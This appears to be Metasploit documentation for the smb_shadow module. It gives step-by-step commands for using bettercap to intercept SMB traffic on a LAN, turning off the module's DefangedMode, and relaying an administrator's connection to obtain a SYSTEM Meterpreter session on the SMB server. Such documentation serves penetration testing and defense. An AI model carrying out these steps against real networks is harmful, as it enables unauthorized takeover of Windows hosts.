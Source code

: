## Vulnerable Application

To be able to use exploit/windows/smb/smb_shadow, you must meet these requirements:

* There is a Windows SMB Server on the LAN
* There is a Windows SMB Client on the LAN
* Metasploit is running will full local socket access (e.g. as root user)

## Verification Steps

1. Ensure Windows SMB Client and Server are on the LAN
2. Run bettercap targeting both the SMB Client and Server (`bettercap -I <iface> -T <smb-client-ip>,<smb-server-ip>`)
3. Start msfconsole (`sudo msfconsole`)
4. Do `use exploit/windows/smb/smb_shadow`
5. Do `set INTERFACE <iface>`
6. Do `set DefangedMode false`
7. Do `run`
8. Make a SMB Client connect to the SMB Server as an Administrator
9. Receive a Meterpreter Session as SYSTEM on the SMB Server host

## Scenarios

**Active Windows Network**

Follow the following steps to target all the hosts on the LAN:

1. Run bettercap targeting the entire LAN (`bettercap -I <iface>`)
2. Start msfconsole (`sudo msfconsole`)
3. Do `use exploit/windows/smb/smb_shadow`
4. Do `set INTERFACE <iface>`
5. Do `set DefangedMode false`
6. Do `run`
7. Wait for any SMB Client to connect to any SMB Server as an Administrator
8. Receive a Meterpreter Session as SYSTEM on the SMB Server host
